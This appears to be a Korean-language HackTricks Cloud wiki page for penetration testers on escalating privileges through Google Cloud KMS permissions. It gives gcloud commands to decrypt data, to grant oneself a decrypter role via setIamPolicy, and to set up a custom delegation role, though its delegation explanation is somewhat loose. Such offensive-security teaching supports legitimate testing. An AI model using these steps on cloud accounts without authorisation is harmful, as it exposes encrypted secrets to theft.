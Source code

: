 # GCP - KMS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

KMS에 대한 정보:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

KMS에서는 **권한**이 조직, 폴더 및 프로젝트에서 **상속**될 뿐만 아니라 **키링**에서도 상속된다는 점에 유의하십시오.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

이 권한을 사용하여 **해당 권한이 있는 키로 정보를 복호화**할 수 있습니다.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

이 권한을 가진 공격자는 **자신에게 권한을 부여**하여 키를 사용해 정보를 복호화할 수 있습니다.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

이 위임이 작동하는 방식에 대한 개념적 분석은 다음과 같습니다:

1. **서비스 계정 A**는 KMS에서 특정 키를 사용하여 직접적으로 복호화할 수 있는 권한을 가지고 있습니다.
2. **서비스 계정 B**는 `useToDecryptViaDelegation` 권한을 부여받습니다. 이를 통해 서비스 계정 A를 대신하여 KMS에 데이터를 복호화 요청할 수 있습니다.

이 **권한의 사용은 복호화 요청이 이루어질 때 KMS 서비스가 권한을 확인하는 방식에 암묵적으로 포함되어 있습니다**.

Google Cloud KMS API(파이썬 또는 다른 언어 사용)를 통해 표준 복호화 요청을 할 때, 서비스는 **요청하는 서비스 계정이 필요한 권한을 가지고 있는지 확인합니다**. 요청이 **`useToDecryptViaDelegation`** 권한을 가진 서비스 계정에 의해 이루어지면, KMS는 이 **계정이 키를 소유한 엔티티를 대신하여 복호화를 요청할 수 있는지 확인합니다**.

#### 위임 설정하기

1. **사용자 정의 역할 정의**: 사용자 정의 역할을 정의하는 YAML 파일(예: `custom_role.yaml`)을 생성합니다. 이 파일에는 `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` 권한이 포함되어야 합니다. 이 파일의 예시는 다음과 같을 수 있습니다:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **gcloud CLI를 사용하여 사용자 정의 역할 만들기**: 다음 명령어를 사용하여 Google Cloud 프로젝트에서 사용자 정의 역할을 만듭니다:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

`[YOUR_PROJECT_ID]`를 Google Cloud 프로젝트 ID로 교체하세요.

3. **서비스 계정에 사용자 정의 역할 부여**: 이 권한을 사용할 서비스 계정에 사용자 정의 역할을 할당합니다. 다음 명령어를 사용하세요:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
`[YOUR_PROJECT_ID]`와 `[SERVICE_ACCOUNT_EMAIL]`을 각각 프로젝트 ID와 서비스 계정의 이메일로 교체하세요.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
